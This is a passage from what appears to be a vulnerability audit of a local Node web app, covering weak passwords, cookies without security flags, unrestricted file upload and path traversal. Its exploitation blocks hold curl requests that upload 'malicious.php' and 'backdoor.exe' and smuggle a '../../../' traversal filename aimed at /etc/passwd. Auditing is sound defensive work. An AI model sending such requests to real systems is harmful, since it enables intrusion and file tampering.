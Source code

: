 **Exploitation**:
```bash
# Register with weak password
curl -X POST http://localhost:5001/api/auth/register \
  -H "Content-Type: application/json" \
  -d '{"username": "weak", "email": "weak@test.com", "password": "1"}'
```

### 1.4 Insecure Session Cookies
**Location**: `server/routes/auth.js` - Line 55-59  
**Severity**: High  
**Description**: Cookies lack security flags.

**Exploitation**:
```javascript
// Access token via JavaScript (not httpOnly)
console.log(document.cookie);

// CSRF possible due to SameSite=none
```

---

## 2. File Upload Vulnerabilities

### 2.1 Unrestricted File Upload
**Location**: `server/routes/user.js` - Line 8-20  
**Severity**: Critical  
**Description**: No file type or size restrictions.

**Exploitation**:
```bash
# Upload malicious file
curl -X POST http://localhost:5001/api/user/upload \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -F "profilePicture=@malicious.php"

# Upload executable
curl -X POST http://localhost:5001/api/user/upload \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -F "profilePicture=@backdoor.exe"
```

### 2.2 Path Traversal in Filenames
**Location**: `server/routes/user.js` - Line 15  
**Severity**: High  
**Description**: Original filename used without sanitization.

**Exploitation**:
```bash
# Upload to parent directory
curl -X POST http://localhost:5001/api/user/upload \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -F "profilePicture=@../../../etc/passwd;filename=../../../malicious.txt"
```

---